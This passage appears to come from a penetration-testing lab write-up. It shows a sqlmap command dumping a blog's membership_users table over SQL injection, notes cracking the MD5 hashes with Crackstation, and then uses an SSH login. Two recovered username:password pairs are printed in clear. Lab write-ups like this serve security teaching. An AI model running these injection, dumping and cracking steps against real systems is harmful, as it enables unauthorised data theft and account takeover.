 Now dump it

```
sqlmap 'http://172.16.1.12/blog/category.php?id=5' --dbs --batch -D blog_admin_db -T membership_users --dump
```

<figure><img src="../../../.gitbook/assets/image (102) (1).png" alt=""><figcaption></figcaption></figure>

Okay we see 2 users here with their MD5 hashed password. We can crack this using Crackstation. Crack both of their passwords and try to SSH

<figure><img src="../../../.gitbook/assets/image (103) (1).png" alt=""><figcaption></figcaption></figure>

`ben:Welcometomyblog`

`egre55:egre55`

Above is the password of `Ben`. Eventually we will find out that only Ben has SSH onto the machine

```
ssh ben@172.16.1.12
```
